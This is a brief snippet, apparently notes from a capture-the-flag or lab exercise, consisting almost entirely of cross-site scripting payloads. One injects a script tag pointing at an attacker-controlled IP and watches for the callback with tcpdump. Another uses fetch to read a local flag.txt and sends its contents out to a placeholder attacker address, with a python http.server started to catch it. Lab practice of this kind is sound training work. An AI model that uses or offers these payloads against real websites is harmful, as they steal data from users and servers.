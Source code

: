 # 1

<script src="http://10.8.136.212:8000/"></script>

```bash
sudo tcpdump -i tun0 port 8000
```

# 2

<script>
  fetch('http://127.0.0.1:8000/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://<YOUR-IP-ADDRESS-tun0>:8000/?flag=' + encodeURIComponent(data));
    });
</script>

```bash
python3 -m http.server 8000
```

